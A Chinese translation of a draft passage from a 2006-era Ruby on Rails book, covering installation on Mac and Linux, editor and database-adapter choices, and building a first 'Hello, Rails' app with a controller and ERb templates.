至少在 OS X 10.4 之后，Mac 用户需要多做一点工作才能让 Rails 运行起来。然而，这是值得的。而且，如果你开始感到气馁，觉得也许 Windows 用户的生活更轻松，那么请想想绝大多数 Rails 核心团队成员都在 Mac 上工作，以此来振作一下。

你的第一个决定是：是自己安装 Ruby、Rails 等等，还是使用一个打包好的 Rails 发行版。为了诱惑你，Ryan Raaum 制作了一个很棒的 Rails 捆绑包，叫做 Locomotive，它提供了一键安装 Rails 的功能。

虽然捆绑选项看起来像一个无需思考的选择，但它有一个缺点：它不包含 MySQL 数据库。取而代之的是一个叫做 SQLite 的数据库。现在，SQLite 对于小型应用来说是一个完全够用的数据库，这可能非常适合你。然而，本书中的示例使用的是 MySQL，并且大多数 Rails 站点都使用 MySQL 或 Postgres 进行部署。此外，Locomotive 在一个叫做 lighttpd 的 Web 服务器下运行其应用程序。这没问题，但本书中的示例假设你使用的是叫做 WEBrick 的服务器。两者都能正常工作，但你需要调整说明以适应 lighttpd 的工作方式。所以，我们建议你看一下后面“自行安装”的说明。如果这些看起来太吓人，请随意安装 Locomotive（详情在下一页）。

<sup>3</sup>为什么？因为 InstantRails 是一个完美的自包含环境，所以它不会将自己安装到你的全局 Windows 环境中。这意味着你所需的所有程序默认情况下都不在 Windows 的路径中。你可以通过一些小调整将它们添加进去，然后使用常规的命令窗口，但 InstantRails 的方式似乎同样简单。

### 自行在 Mac 上安装

准备好卷起袖子进行*真正的*安装了吗？你来对地方了。事实上，以防后续的说明看起来太容易，我们将通过迫使你事先做一个决定，让事情变得更难一些。

本节我们将做的是在你的系统上安装 Ruby 和 Rails 所需的所有软件。而完成这项工作的方法就像 Mac 上的开发者一样多。⁴ 因为安装包含多个步骤，并且这些步骤在某种程度上取决于你所使用的 OS X 版本，我们将把安装描述委托给网络上的一些文章。这里有个决定：我们发现了两篇关于如何在你的 Mac 上安装 Rails 的真正好（且经过充分测试）的描述。

第一篇来自 Dan Benjamin。他的文章 *Building Ruby, Rails, LightTPD, and MySQL on Tiger* 是一个分步指南，指导你下载和构建将你的 Mac 变成 Rails 机器所需的所有软件。在以下地址可以找到：

- <http://hivelogic.com/articles/2005/12/01/ruby_rails_lighttpd_mysql_tiger>

另一种方法是让计算机为你完成一些底层工作。至少有两种针对 OS X 的包管理系统。它们处理软件的下载、依赖管理、安装和更新。James Duncan Davidson 对如何使用 Darwin Ports 包管理系统在 OS X 上安装 Rails 有一个很棒的描述。Duncan 的方法有一个真正的优点：因为包管理器处理依赖关系，它使得升级和回滚各个组件的版本变得更容易。它有一个轻微的缺点：你将安装布局的控制权委托给了包管理器，所以你要么按 Darwin Ports 的方式做事，要么不做。实际上，这不是问题。总之，你可以在以下地址找到 Duncan 的文章：

- <http://duncandavidson.com/essay/2006/04/portsandbox>

通读两者，做出你的选择，然后动手。我们等你……当你回来后，请翻到下一页，加入我们讨论编辑器。

> ⁴可能更多，因为我个人很少以相同的方式两次安装软件。

### 在 Mac 上安装 Locomotive

Locomotive 可以从 <http://locomotive.raaum.org> 下载为 `.dmg` 文件。挂载它，然后将`Locomotive`文件夹拖动到适当的位置。然后，通过导航到该文件夹并运行`Locomotive.app`（但要在欣赏过那个很酷的火车图标之后）来启动 Locomotive。

Locomotive 允许你导入现有的 Rails 项目并创建新项目。其主窗口显示它管理的所有 Rails 项目列表，并允许你启动和停止这些应用程序。你在 Locomotive 外部编辑应用程序文件。

如果你决定查看 Windows 安装说明，你会看到一个强烈的警告：使用 InstantRails 提供的控制台来输入 Rails 命令。嗯，这里也是一样的。使用 Locomotive 时，你必须使用它的控制台来输入命令。从`Rails > Open Terminal`菜单选项访问它。

## 3.4 在 Linux 上安装

如果你是那种*用磁盘上的磁铁拨位来编码*的 Linux 用户，那么 Dan Benjamin 针对 Mac 的说明可能会让你顺利入门。一个警告：如果你的机器已经安装了 Ruby，请注意：它可能没有你需要的库。我（Dave）个人总是将 Ruby 安装在我的主目录下的一个目录中（比如`~/ruby`），然后将`~/ruby/bin`包含在我的路径中。

我们其余的凡人可能会使用我们发行版的包管理器来安装我们需要的代码（几乎就像 James Duncan Davidson 的 Mac 说明所做的那样）。但是，因为每个发行版都不同，我们将略过细节，而是引用一个在线资源，其中包含了针对流行的基于 Debian 的发行版 Ubuntu 的信息。

- <http://wiki.rubyonrails.com/rails/pages/RailsOnUbuntuDebianTestingAndUnstable>

## 3.5 开发环境

编写 Rails 程序的日常业务非常直接。每个人工作方式不同；以下是我（Dave）的工作方式。

### 命令行

我在命令行上做了很多工作。尽管有越来越多的 GUI 工具可以帮助生成和管理 Rails 应用程序，但我发现命令行仍然是最强大的地方。值得花一点时间熟悉你操作系统上的命令行。了解如何使用它来编辑你正在输入的命令，如何搜索和编辑以前的命令，以及如何在你输入时自动补全文件和命令的名称。⁵

### 版本控制

我将所有工作都保存在版本控制系统中（目前是 Subversion）。我专门在创建一个新的 Rails 项目时就将其签入 Subversion，并在通过测试后提交更改。我通常每小时会多次提交到仓库。

如果你与其他人一起处理一个 Rails 项目，请考虑设置一个持续集成（CI）系统。每次任何人签入任何更改时，CI 系统都会签出一个全新的应用程序副本并运行所有测试。这是一个简单的保险措施，防止你在进行更改时意外地破坏东西。你也可以设置你的 CI 系统，让你的客户可以使用它来试用你应用程序的最前沿版本。这种透明度是确保你的项目不偏离轨道的好方法。

### 编辑器

我使用程序员编辑器来编写我的 Rails 程序。这些年来我发现，不同的编辑器最适合不同的语言和环境。例如，我正在用 Emacs 编写本章，因为它的 Filladapt 模式在输入时整齐地格式化 XML 方面无与伦比。但 Emacs 并不是 Rails 开发的理想选择：我为此使用 TextMate。虽然编辑器的选择是个人偏好，但以下是一些在寻找 Rails 编辑器时可以考虑的建议。

> ⁵所谓的*标签补全*在 Unix shell（如 Bash 和 zsh）中是标准功能。它允许你输入文件名的前几个字符，按`tab`键，然后 shell 会根据匹配的文件查找并补全名称。此行为在 Windows XP 命令 shell 中也是默认可用的。你可以通过编辑注册表（适用标准警告）并将`HKEY_LOCAL_MACHINE > SOFTWARE > Microsoft > Command Processor > Completion Char`的值设置为 9，来在旧版本的 Windows 中启用此行为。

### 我的集成开发环境在哪儿？

如果你是从 C# 或 Java 转向 Ruby 和 Rails，你可能会对集成开发环境（IDE）感到困惑。毕竟，我们都知道，如果没有至少 100MB 的 IDE 来支持我们的每一次按键，就不可能开发现代应用程序。对于你们这些开明的人，现在本书要建议你们坐下来，理想情况是在两侧各放一堆框架参考书和 1000 页的“轻松入门”书籍。

Ruby 或 Rails 没有功能齐全的 IDE（尽管有些环境接近）。

相反，我们都使用普通的文本编辑器。事实证明，这并不像你想象的那么麻烦。对于其他表达力较弱的语言，程序员依赖 IDE 来完成大部分繁重工作：IDE 进行代码生成、导航和增量编译，以提供早期错误警告。

然而，对于 Ruby，这些支持大多不是必需的。像 TextMate 这样的编辑器能提供你从 IDE 中获得的 90% 功能，但重量轻得多。唯一缺失的有用 IDE 功能是重构支持。

- 支持 Ruby 和 HTML 的语法高亮。最好支持`.rhtml`文件（一种在 HTML 中嵌入 Ruby 代码片段的 Rails 文件格式）。
- 支持 Ruby 源代码的自动缩进和重新缩进。这不仅仅是美学问题：编辑器在你输入时缩进你的程序是发现代码中糟糕嵌套的最佳方式。能够在重构代码和移动内容时重新缩进很重要。（TextMate 在从剪贴板粘贴代码时能够重新缩进的功能非常方便。）
- 支持插入常见的 Ruby 和 Rails 构造。你会编写很多短方法：IDE 通过一两次按键创建方法骨架，让你能专注于内部有趣的内容。
- 良好的文件导航。正如我们将看到的，Rails 应用程序分布在许多文件中。你需要一个环境来帮助你在这些文件之间快速导航：你将向控制器添加一行以加载一个值，切换到视图添加一行以显示它，然后切换到测试以验证你做的一切都正确。像记事本这样的东西，需要遍历“打开文件”对话框来选择每个要编辑的文件，是行不通的。我个人更喜欢将侧边栏中的文件树视图、一套能让我通过名称在目录树中查找文件（或文件）的小键盘快捷键，以及一些内置的智能功能（比如知道如何在控制器操作和相应的视图之间导航）结合起来。
- 名称补全。Rails 中的名称往往很长。一个好的编辑器会让你输入前几个字符，然后在按下一个键时建议可能的补全选项。

我们犹豫是否要推荐特定的编辑器，因为我们只认真使用过几种，而且我们无疑会漏掉一些人最喜欢的编辑器。尽管如此，为了帮助你从 vi 或记事本之外开始，这里有一些建议。

- **TextMate**（<http://macromates.com/>）：Mac OS X 上首选的 Ruby/Rails 编辑器。
- **RadRails**（<http://www.radrails.org/>）：基于 Eclipse 平台构建的集成 Rails 开发环境，可在 Windows、Mac OS X 和 Linux 上运行。（它在 2006 年获得了基于 Eclipse 的最佳开源开发者工具奖。）
- **jEdit**（<http://www.jedit.org/>）是一个功能齐全的编辑器，支持 Ruby。它有广泛的插件支持。
- **Komodo**（<http://www.activestate.com/Products/Komodo/>）：ActiveState 的动态语言 IDE，包括 Ruby。
- **Arachno Ruby**（<http://www.ruby-ide.com/ruby/ruby_ide_and_ruby_editor.php>）：一个商业 Ruby IDE。

问问使用你那种操作系统的有经验的开发者他们用什么编辑器。在选定之前，花一周左右的时间尝试不同的选择。并且，一旦你选定了一个编辑器，就把每天学习一个新功能作为一项值得骄傲的任务。

### 桌面环境

我不会告诉你如何在使用 Rails 时组织你的桌面，但我会描述我的做法。

大多数时候，我都在编写代码、运行测试，并在浏览器中调试我的应用程序。所以我的主要开发桌面永久打开着一个编辑器窗口和一个浏览器窗口。我还想关注我的应用程序生成的日志，所以我保持一个终端窗口打开。在其中，我使用`tail -f`来滚动显示更新的日志文件内容。我通常以非常小的字体运行这个窗口，这样它占用的空间就更少——如果我看到什么有趣的东西闪过，我会放大它来查看。

我还需要访问 Rails API 文档，我在浏览器中查看。在介绍部分，我们谈到了使用`gem_server`命令运行一个包含 Rails 文档的本地 Web 服务器。这很方便，但不幸的是，它将 Rails 文档分散在多个独立的文档树中。如果你在线，你可以使用[http://api.rubyonrails.org](http://api.rubyonrails.org)在一个地方查看所有 Rails 文档的综合视图。第 30 页的侧边栏描述了如何在你自己的机器上创建相同的文档。

**遗漏：**在推送 1.1.3 时移除回声

## 3.6 Rails 与数据库

本书中的所有示例都是使用`MySQL`（大约版本 5.0.18）开发的。如果你想跟随我们的代码，使用`MySQL`可能是最简单的。如果你决定使用不同的东西，也不会是什么大问题。你可能需要对代码中的任何显式 SQL 进行微小的调整，但 Rails 基本上从应用程序中消除了特定于数据库的 SQL。

你需要两层软件来将你的应用程序代码连接到数据库引擎。第一层是数据库驱动程序，一个 Ruby 库，它将底层的数据库 API 连接到更高层次的 Ruby 编程世界。因为数据库通常附带可以从 C 访问的接口库，所以这些 Ruby 库通常也是用 C 编写的，并且必须为你的目标环境进行编译。第二层代码是 Rails 数据库适配器。它位于 Ruby 库和你的应用程序之间。每个数据库库都有自己特定于数据库的 API。Rails 数据库适配器隐藏了这些差异，这样 Rails 应用程序就不需要知道它运行在什么样的数据库上。

我们在本章开头的安装步骤中安装了 MySQL 数据库驱动程序。在你熟悉 Rails 期间，这可能就足够了。如果是这样，你可以安全地跳到第**31**页的**第 3.7 节**，*保持更新*。

如果你还在读这部分，这意味着你想连接 MySQL 以外的数据库。Rails 支持 DB2、MySQL、Oracle、Postgres、Firebird、SQL Server 和 SQLite 数据库。除了 MySQL，你需要安装一个数据库驱动程序，一个 Rails 可以用来连接和使用你的数据库引擎的库。本节包含完成此操作的链接和说明。

数据库驱动程序都是用 C 编写的，主要以源代码形式分发。如果你不想费心从源代码构建驱动程序，请仔细查看驱动程序的网站。很多时候你会发现作者也提供二进制版本。

如果你找不到二进制版本，或者你宁愿从源代码构建，你需要在你的机器上有一个开发环境来构建库。在 Windows 下，这意味着需要有一份 Visual C++。在 Linux 下，你需要 gcc 及其伙伴（但这些很可能已经安装了）。

在 OS X 下，你需要安装开发者工具（它们随操作系统附带，但默认未安装）。你还需要记住将数据库驱动程序安装到正确版本的 Ruby 中。OS X 自带 Ruby，但在 Tiger 版本中，这个安装不太正确。尽管有补丁可以修复它，但我们不使用它们：在回到第**23**页开始的安装说明中，我们安装了自己的 Ruby 副本，绕过了内置版本。重要的是要记住，在构建和安装数据库驱动程序时，让你的 Ruby 版本在路径中排在第一位。我总是运行命令`which ruby`来确保我*不是*在运行`/usr/bin`中的 Ruby。

下表列出了可用的数据库适配器，并给出了它们各自主页的链接。

| 适配器 | 链接 |
| :--- | :--- |
| DB2 | <http://raa.ruby-lang.org/project/ruby-db2> |
| Firebird | <http://rubyforge.org/projects/fireruby/> |
| MySQL | <http://www.tmtm.org/en/mysql/ruby> |
| Oracle | <http://rubyforge.org/projects/ruby-oci8> |
| Postgres | <http://ruby.scripting.ca/postgres/> |
| SQL Server | （见表格后的说明） |
| SQLite | <http://rubyforge.org/projects/sqlite-ruby> |

有一个纯 Ruby 版本的 Postgres 适配器可用。从 Ruby-DBI 页面 <http://rubyforge.org/projects/ruby-dbi> 下载`postgres-pr`。

### 创建自己的 Rails API 文档

你可以创建自己的 Rails API 文档的本地合并版本。只需在命令提示符下输入以下命令（如果你使用的是 InstantRails 或 Locomotive，请记得在启动命令窗口时进入你的 Rails 环境）。


```text
rails_apps> rails dummy_app
rails_apps> cd dummy_app
dummy_app> rake rails:freeze:gems
dummy_app> echo >vendor/rails/activesupport/README
dummy_app> rake doc:rails
```

最后一步需要一些时间。完成后，你将在以`doc/api`为起始的目录树中找到 Rails API 文档。我建议将此文件夹移动到桌面，然后删除`dummy_app`目录树。

MySQL 和 SQLite 也可以作为 RubyGems 下载（分别是`mysql`和`sqlite`）。

与 SQL Server 交互需要一点努力。以下内容基于 Joey Gibson 编写的说明，他编写了 Rails 适配器。

假设你使用一键安装程序将 Ruby 加载到系统上，那么你已经拥有连接到 SQL Server 所需的大部分库。然而，ADO 模块未安装。请按照以下步骤操作。

1. 找到存放你 Ruby 安装的目录树（默认是`C:\Ruby`）。在其下是文件夹`\Ruby\lib\ruby\site_ruby\1.8\DBD`。在此文件夹内，创建目录`ADO`。
2. 访问`http://ruby-dbi.sourceforge.net`并获取 Ruby-DBI 的最新源代码分发包。
3. 将 DBI 分发包解压到本地文件夹。导航到此文件夹，然后进入目录`src\lib\dbd_ado`。将此目录中的文件`ADO.rb`复制到你在步骤 1 中创建的 Ruby 目录树中的`ADO`目录。

SQL Server 适配器仅在 Windows 系统上有效，因为它依赖于 Win32OLE。

遗漏：检查新的适配器。Frontbase？

## 3.7 保持最新

假设你是通过 RubyGems 安装的 Rails，那么保持更新相对容易。执行命令：

```bash
dave> gem update rails --include-dependencies
```

RubyGems 将自动更新你的 Rails 安装。下次重启应用程序时，它将使用这个最新版本的 Rails。（我们将在*部署和扩展*章节中更多地讨论在生产环境中更新你的应用程序，从第 524 页开始。）RubyGems 会自动保留其安装的旧版本。你可以使用以下命令删除这些旧版本：

```bash
dave> gem cleanup
```

安装新版本的 Rails 后，你可能还想更新 Rails 最初添加到你应用程序中的文件（比如它用于 Ajax 支持的 JavaScript 库、各种脚本等）。我们将在 sec.update.apps.rails，第 ?? 页讨论这一点。

## 3.8 Rails 和 ISP

如果你想在共享托管环境中将 Rails 应用程序上线，你需要找到一个熟悉 Ruby 的 ISP。寻找一个支持 Ruby、拥有你需要的 Ruby 数据库驱动程序，并提供 FastCGI 和/或 lighttpd 支持的 ISP。我们将在第 24 章*部署和生产*中更多地讨论部署 Rails 应用程序，从第 524 页开始。

Rails wiki 上的页面[http://wiki.rubyonrails.com/rails/pages/RailsWebHosts](http://wiki.rubyonrails.com/rails/pages/RailsWebHosts)列出了一些对 Rails 友好的 ISP。

现在我们已经安装了 Rails，让我们使用它吧。进入下一章。

# 第 4 章

## 即时满足

让我们编写一个简单的 Web 应用程序，以验证我们已将 Rails 稳妥地安装在我们的机器上。在这个过程中，我们将一窥 Rails 应用程序的工作方式。

### 4.1 创建新应用

当你安装 Rails 框架时，你还会得到一个新的命令行工具`rails`，它用于构建你编写的每个新 Rails 应用程序。

为什么我们需要一个工具来完成这个——为什么我们不能直接在我们喜欢的编辑器中从头开始创建我们应用程序的源代码？嗯，我们确实可以直接编写。毕竟，Rails 应用程序只是 Ruby 源代码。但 Rails 在幕后也做了很多魔法，以使我们的应用程序以最少的显式配置运行。为了让这些魔法生效，Rails 需要找到你应用程序的所有各种组件。正如我们稍后将看到的（在第 14.2 节*目录结构*中，第 222 页），这意味着我们需要创建一个特定的目录结构，将我们编写的代码放入适当的位置。`rails`命令只是为我们创建这个目录结构，并用一些标准的 Rails 代码填充它。

要创建你的第一个 Rails 应用程序，打开一个 shell 窗口并导航到文件系统中你想要创建应用程序目录结构的位置。在我们的示例中，我们将在一个名为`work`的目录中创建我们的项目。在该目录中，使用`rails`命令创建一个名为`demo`的应用程序。这里要稍微小心——如果已有一个名为`demo`的目录，系统会询问你是否要覆盖任何现有文件。

```text
dave> cd work
work> rails demo
      create
      create  app/controllers
      create  app/helpers
      create  app/models
         :         :         :
      create  log/development.log
      create  log/test.log
work>
```

该命令已创建一个名为`demo`的目录。进入该目录，并列出其内容（在 Unix 系统上使用`ls`，在 Windows 下使用`dir`）。你应该会看到一堆文件和子目录。

```text
work> cd demo
demo> ls -p
README              components/         doc/                public/             tmp/
Rakefile            config/             lib/                script/             vendor/
app/                db/                 log/                test/
```

所有这些目录（以及它们包含的文件）一开始可能会让人望而生畏，但在开始时我们可以忽略其中的大部分。在本章中，我们将只直接使用其中的两个：`app`目录，我们将在其中编写应用程序；以及`script`目录，其中包含一些有用的实用脚本。

让我们从`script`子目录开始。除了其他东西，它包含一个名为`server`的脚本。该脚本启动一个独立的 Web 服务器，可以在 WEBrick 下运行我们新创建的 Rails 应用程序。¹ 因此，闲话少说，让我们启动我们的演示应用程序。

```text
demo> ruby script/server
=> Booting WEBrick...
=> Rails application started on http://0.0.0.0:3000
=> Ctrl-C to shutdown server; call with --help for options
[2006-01-08 21:44:10] INFO  WEBrick 1.3.1
[2006-01-08 21:44:10] INFO  ruby 1.8.2 (2004-12-30) [powerpc-darwin8.2.0]
[2006-01-08 21:44:11] INFO  WEBrick::HTTPServer#start: pid=10138 port=3000
```

> ¹WEBrick 是一个纯 Ruby Web 服务器，随 Ruby 1.8.1 及更高版本一起分发。由于它保证可用，Rails 将其用作默认的开发 Web 服务器。但是，如果你的系统上安装了一个名为 lighttpd 的 Web 服务器（并且 Rails 可以找到它），`script/server`命令将优先使用它而不是 WEBrick。你可以通过提供命令选项来强制 Rails 使用 WEBrick：
>
> ```text
> demo> ruby script/server webrick
> ```

### 图 4.1：新创建的 Rails 应用程序

正如启动跟踪信息的最后一行所示，我们刚刚在端口 3000 上启动了一个 Web 服务器。² 我们可以通过将浏览器指向[http://localhost:3000](http://localhost:3000)来访问该应用程序。结果如图**4.1**所示。

如果你查看启动 WEBrick 的窗口，你会看到显示你正在访问应用程序的跟踪信息。我们将让 WEBrick 在这个控制台窗口中继续运行。稍后，当我们编写应用程序代码并通过浏览器运行它时，我们将能够使用这个控制台窗口来跟踪传入的请求。当你使用完应用程序后，可以在此窗口中按 Ctrl-C 来停止 WEBrick。

此时，我们有一个新的应用程序在运行，但它不包含我们的任何代码。让我们纠正这种情况。

> ²地址中的`0.0.0.0`部分意味着 WEBrick 将在所有接口上接受连接。在 Dave 的 OS X 系统上，这意味着本地接口（`127.0.0.1`和`::1`）以及他的 LAN 连接。

## 4.2 你好，Rails！

*Dave 发言：* 我忍不住——我必须写一个*你好，世界！*程序来试试这个新系统。在 Rails 中，等价的应用应该是一个向浏览器发送我们友好问候的应用。

正如我们在第 2 章*Rails 应用的架构*（第 9 页）中讨论的，Rails 是一个模型-视图-控制器框架。Rails 接受来自浏览器的传入请求，解码请求以找到控制器，并调用该控制器中的一个动作方法。然后，控制器调用特定的视图将结果显示给用户。好消息是，Rails 处理了连接所有这些部分的大多数内部管道工作。要编写我们简单的*你好，世界！*应用，我们需要一个控制器和一个视图的代码。我们不需要模型的代码，因为我们不涉及任何数据。让我们从控制器开始。

就像我们使用`rails`命令创建一个新的 Rails 应用一样，我们也可以使用一个*生成器脚本*为我们的项目创建一个新的控制器。这个命令叫做`generate`，它位于我们创建的`demo`项目的`script`子目录中。所以，要创建一个名为`Say`的控制器，我们确保在`demo`目录中并运行脚本，传入我们想要创建的控制器的名称。³

```text
demo> ruby script/generate controller Say
exists  app/controllers/
exists  app/helpers/
create  app/views/say
exists  test/functional/
create  app/controllers/say_controller.rb
create  test/functional/say_controller_test.rb
create  app/helpers/say_helper.rb
```

脚本记录了它检查的文件和目录，并在向你的应用添加新的 Ruby 脚本或目录时做标记。目前，我们对其中一个脚本感兴趣，并且（稍等片刻）对这个新目录也感兴趣。

我们要查看的源文件是控制器。你会在文件`app/controllers/say_controller.rb`中找到它。让我们看看它。

下载 work/demo1/app/controllers/say_controller.rb

```ruby
class SayController < ApplicationController
end
```

³ “控制器的名称”这个概念实际上比你想象的要复杂，我们将在第 14.4 节*命名约定*（第 233 页）中详细解释。现在，我们先假设控制器叫做*Say*。

非常简洁，是吧？`SayController`是一个继承自`ApplicationController`的空类，所以它自动获得了所有默认的控制器行为。让我们给它加点料。我们需要添加一些代码，让我们的控制器能处理传入的请求。这段代码需要做什么？目前，它什么也不做——我们只需要一个空的动作方法。那么下一个问题是，这个方法应该叫什么名字？要回答这个问题，我们需要看看 Rails 处理请求的方式。

### Rails 和请求 URL

像任何其他 Web 应用一样，Rails 应用在用户看来是与一个 URL 关联的。当你将浏览器指向该 URL 时，你就是在与应用代码对话，它会生成一个响应返回给你。

然而，实际情况比这要复杂一些。假设你的应用位于 URL`http://progprog.com/online/demo`。托管你的应用的 Web 服务器对路径相当智能。它知道一旦看到路径中的`online/demo`部分，它就是在与应用对话。传入 URL 中此部分之后的任何内容都不会改变这一点——相同的应用仍会被调用。任何附加的路径信息都会传递给应用，应用可以出于其内部目的使用它。

Rails 使用路径来确定要使用的控制器名称以及要在该控制器上调用的动作名称。⁴ 这在下一页的图**4.2**中有所说明。路径中应用程序之后的第一部分是控制器的名称，第二部分是动作的名称。这在随后的图**4.3**中显示。

### 我们的第一个动作

让我们向我们的`Say`控制器添加一个名为`hello`的动作。根据上一节的讨论，我们知道添加一个`hello`意味着在`SayController`类中创建一个名为`hello`的方法。但它应该做什么？目前，它不必做任何事情。记住，控制器的工作是设置好一切，以便视图知道该显示什么。在我们的第一个应用中，没有什么需要设置的，所以一个空的动作就可以很好地工作。使用

> <sup>4</sup>Rails 在解析传入 URL 方面相当灵活。在本章中，我们描述的是默认机制。我们将在**第 18.3 节***路由请求*（第**348**页）中展示如何覆盖此机制。



图 4.2：URL 映射到控制器和动作



图 4.3：Rails 路由到控制器和动作

你最喜欢的编辑器来修改`app/controllers`目录中的文件`say_controller.rb`，添加`hello()`方法，如下所示。

```ruby
class SayController < ApplicationController
  def hello
  end
end
```

现在让我们试着调用它。找一个浏览器窗口，导航到 URL`http://localhost:3000/say/hello`。（注意，在这个测试环境中，路径前面没有任何应用字符串——我们直接路由到控制器。）你会看到类似以下的内容。



这可能有点烦人，但错误是完全合理的（除了奇怪的路径之外）。我们创建了控制器类和动作方法，但还没有告诉 Rails 要显示什么。这就是视图的用武之地。记得我们运行脚本创建新控制器时吗？该命令向我们的应用添加了三个文件和一个新目录。该目录包含控制器视图的模板文件。在我们的例子中，我们创建了一个名为`say`的控制器，所以视图将在`app/views/say`目录中。

为了完成我们的*你好，世界！*应用，让我们创建一个模板。默认情况下，Rails 在一个与它处理的动作同名的文件中查找模板。在我们的例子中，这意味着我们需要创建一个名为`app/views/say/hello.rhtml`的文件。（为什么是`.rhtml`？我们稍后解释。）现在，让我们在里面放一些基本的 HTML。

```html
<html>
  <head>
    <title>你好，Rails!</title>
  </head>
  <body>
    <h1>来自 Rails 的问候！</h1>
  </body>
</html>
```



图 4.4：控制器和视图的标准位置

保存文件`hello.rhtml`，然后刷新浏览器窗口。你应该会看到它显示我们友好的问候。注意，我们不必重新启动应用就能看到更新。在开发过程中，Rails 会在你保存文件时自动将更改集成到运行中的应用中。


到目前为止，我们已经在 Rails 应用目录树中添加了两个文件的代码。我们向控制器添加了一个动作，并创建了一个模板来在浏览器中显示页面。这些文件位于 Rails 层次结构中的标准位置：控制器放在`app/controllers`中，视图放在`app/views`的子目录中。这在图 4.4 中显示。

### 让它动起来

到目前为止，我们的 Rails 应用相当无聊——它只是显示一个静态页面。为了让它更动态一点，让我们在每次显示页面时显示当前时间。

为此，我们需要对视图中的模板文件进行更改——它现在需要包含作为字符串的时间。这就引出了两个问题。首先，如何向模板添加动态内容？其次，我们从哪里获取时间？

### 动态内容

在 Rails 中创建动态模板有两种方法。⁵ 一种使用一种叫做*Builder*的技术，我们将在**第 19.2 节***Builder 模板*（第**402**页）中讨论。第二种方法，也是我们这里将使用的，是将 Ruby 代码直接嵌入到模板本身中。这就是为什么我们将模板文件命名为`hello.rhtml`：`.rhtml`后缀告诉 Rails 使用名为 ERb（嵌入式 Ruby）的系统来展开文件中的内容。


ERb 是一个过滤器，它接受一个 `.rhtml` 文件并输出一个转换后的版本。在 Rails 中，输出文件通常是 HTML，但它可以是任何内容。普通内容会原样传递，不做更改。然而，`<%= %>` 和 `%>` 之间的内容被解释为 Ruby 代码并执行。执行的结果被转换为一个字符串，该值被替换到文件中，替代 `<%=...%>` 序列。例如，将 `hello.rhtml` 更改为包含以下内容。

```text
Download erb/ex1.rhtml

<ul>
  <li>加法: <%= 1+2 %> </li>
  <li>字符串连接: <%= "cow" + "boy" %> </li>
  <li>一小时后的时间:   <%= 1.hour.from_now  %> </li>
</ul>
```

当你刷新浏览器时，模板将生成以下 HTML。

```html
<ul>
  <li>加法: 3 </li>
  <li>字符串连接: cowboy </li>
  <li>一小时后的时间:   Tue May 16 08:55:14 CDT 2006 </li>
</ul>
```

> ⁵ 实际上有三种方法，但第三种，`rjs`，只对向已显示的页面添加 Ajax 魔力有用。我们将在第 **??** 页讨论 `rjs`。

### 让开发更轻松

在浏览器窗口中，你会看到类似如下的内容。

- 加法：3
- 字符串连接：cowboy
- 一小时后的时间：Sun May 07 16:06:43 CDT 2006

此外，`rhtml` 中位于 `<%` 和 `%>` 之间（不带等号）的内容会被解释为 Ruby 代码，执行后不会替换回输出中。不过，这种处理方式有趣的地方在于它可以与非 Ruby 代码混合使用。例如，我们可以制作一个喜庆版的 `hello.rhtml`。

```ruby
<% 3.times do %>
Ho!<br />
<% end %>
Merry Christmas!
```

这将生成以下 HTML。

```html
Ho!<br />
Ho!<br />
Ho!<br />
Merry Christmas!
```

请注意，文件中 Ruby 循环内的文本在每次循环迭代时都会发送到输出流。

但这里还有一些奇怪的地方。那些空行是从哪里来的？它们来自输入文件。仔细想想，原始文件在第一行和第三行的 `%>` 之后都紧跟一个换行符（或多个字符）。因此，`<% 3.times do %>` 被从文件中移除了，但换行符保留了下来。每次循环时，这个换行符都会被添加到输出文件中，连同 `Ho!` 行的完整文本。这就解释了为什么输出中每个 `Ho!` 行之前都有一个空行。同样，`<% end %>` 之后的换行符解释了最后一个 `Ho!` 行和 `Merry Christmas!` 行之间的空行。

通常这无关紧要，因为 HTML 不太在意空白字符。但是，如果你使用此模板机制来创建电子邮件或 `<pre>` 块中的 HTML，你就会想要移除这些空行。通过将 rhtml 序列的结尾从 `%>` 改为 `-%>` 来实现。这个减号告诉 Rails 移除其后的所有换行符。如果我们在 `3.times` 行添加一个减号：

```ruby
<% 3.times do -%>
Ho!<br />
<% end %>
Merry Christmas!
```

我们会得到：

```html
Ho!<br />
Ho!<br />
Ho!<br />

